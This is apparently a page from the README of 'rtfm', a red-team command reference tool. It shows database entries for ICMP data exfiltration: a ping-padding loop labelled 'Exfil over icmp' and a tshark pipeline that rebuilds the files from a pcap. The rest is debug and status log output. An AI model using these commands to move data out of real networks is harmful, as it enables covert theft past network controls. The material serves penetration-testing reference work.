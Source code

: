 ```
|                | 127.0.0.1 -s 32; done; ping -p 11101010101010101010101010101099 -c 1 -M do 127.0.0.1 -s 32       |
|                |                                                                                                  |
| Comment        | Exfil over icmp                                                                                  |
| Tags           | linux                                                                                            |
|                | networking                                                                                       |
|                | loop                                                                                             |
|                | interesting                                                                                      |
| Date added     | 2017-06-19                                                                                       |
| References     | https://www.amazon.co.uk/Rtfm-Red-Team-Field-Manual/dp/1494295504                                |
+----------------+--------------------------------------------------------------------------------------------------+
+----------------+-----------------------------------------------------------------------------------------------+
| Added By Innes | Cmd ID : 496                                                                                  |
+----------------+-----------------------------------------------------------------------------------------------+
| Command        | for line in $(tshark -r [pcap] -T fields -e data  | uniq | grep -v                            |
|                | "......................................................" | sed s/.*11/11/g | grep "11.*99"  | |
|                | sed s/11// | sed s/99$// | tr -d '\n' | sed s/0101010101010101010101010101/'\n'/g |sed        |
|                | s/010101010101010101010101010//g); do echo $line | xxd -r  -p | base64 -d;echo                |
|                | +++++++++++++++++++; done                                                                     |
|                |                                                                                               |
| Comment        | Convert exfil ICMP back to files from pcap                                                    |
| Tags           | linux                                                                                         |
|                | networking                                                                                    |
|                | loop                                                                                          |
| Date added     | 2017-06-19                                                                                    |
| References     | https://ask.wireshark.org/questions/15374/dump-raw-packet-data-field-only                     |
+----------------+-----------------------------------------------------------------------------------------------+

```


[DEBUG]: Options Set: {'insert': None, 'remark': 'help', 'printer': None, 'dump': None, 'author': 'innes', 'cmd': 'rtfm', 'update': None, 'debug': True, 'tag': 'linux', 'date': '2017-05-10', 'delete': None, 'refer': None}
[DEBUG]: S: SELECT c.cmdid, c.cmd, c.cmnt, c.date, c.author, group_concat(DISTINCT tc.tag), group_concat(DISTINCT ref) FROM tblcommand c JOIN tbltagmap tm ON tm.cmdid = c.cmdid JOIN tbltagcontent tc ON  tc.tagid = tm.tagid JOIN tblrefmap rm ON rm.cmdid = c.cmdid JOIN tblrefcontent rc on rc.id = rm.refid WHERE c.cmd LIKE ?  AND c.cmnt LIKE ?  AND c.author LIKE ?  AND c.date = ? GROUP BY c.cmdid  HAVING  group_concat(tc.tag) like ? 
[DEBUG]: W: ['%rtfm%', '%help%', '%innes%', '2017-05-10', '%linux%']
[DEBUG]: This Returned : [(1, 'rtfm.py -c [command] -t [tag],[tag] -C [comment] -p P', 'Helpception, search for a command with two tags and a comment', '2017-05-10', 'Innes', 'linux', 'https://github.com/leostat/rtfm,https://necurity.co.uk/osprog/2017-02-27-RTFM-Pythonized/index.html')]
[WARNING]: No DB, please run rtfm -u
[OK]: This may appear to hang. Run with debug to get more info
[OK]: Program version information:
[OK]: Your up to date :
[OK]: Added Rows :1
[OK]: Added a new tag and a tagmap
[OK]: Added a new Ref and a refmap
[OK]: Added a new Ref and a refmap
[OK]: Added Rows :1
[OK]: Added tags
[OK]: Added a new tag and a tagmap
[OK]: Added a new tag and a tagmap
[OK]: Added a new Ref and a refmap
[OK]: Added a new Ref and a refmap
[OK]: Added Refs
[OK]: Hopefully added lots of new commands
[OK]: Parsed Line of update
[OK]: Hopefully fixed lots of commands
[OK]: Update complete
[OK]: Added Rows :1
[OK]: Added tags
[OK]: Added tags
[OK]: Added a new Ref and a refmap
[OK]: Added Rows : 2
[OK]: New Top ID : 491 | Number of CMD's Added : 2
[OK]: Added tags
[OK]: Added a new tag and a tagmap
[OK]: Added a new Ref and a refmap
[OK]: This tags everything without tags,  mainly for DB init
[OK]: Enter blank line to commit changes
[WARNING]: Number left :22
[OK]: Command ID : 467
[OK]:         Command    : Test Command
[OK]:         Comment    : My comment
[OK]: v These are known tags